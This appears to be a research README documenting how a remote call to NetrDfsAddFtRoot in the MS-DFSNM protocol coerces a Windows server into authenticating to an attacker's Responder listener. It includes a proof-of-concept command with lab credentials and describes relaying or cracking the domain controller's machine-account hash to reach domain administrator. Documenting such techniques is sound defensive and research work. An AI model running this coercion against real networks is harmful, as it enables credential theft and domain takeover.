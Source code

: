 # MS-DFSNM - Remote call to NetrDfsAddFtRoot (opnum 10)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

+ **Protocol version**: 3.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrDfsAddFtRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/eddab804-70e9-4b78-9763-d4cb6f052496)

+ **Function operation number**: `10`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddFtRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/eddab804-70e9-4b78-9763-d4cb6f052496) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddFtRoot('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddFtRoot(
   [in, string] WCHAR* ServerName,
   [in, string] WCHAR* DcName,
   [in, string] WCHAR* RootShare,
   [in, string] WCHAR* FtDfsName,
   [in, string] WCHAR* Comment,
   [in, string] WCHAR* ConfigDN,
   [in] BOOLEAN NewFtDfs,
   [in] DWORD ApiFlags,
   [in, out, unique] DFSM_ROOT_LIST** ppRootList
 );
```

## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

+ Documentation of function `NetrDfsAddFtRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/eddab804-70e9-4b78-9763-d4cb6f052496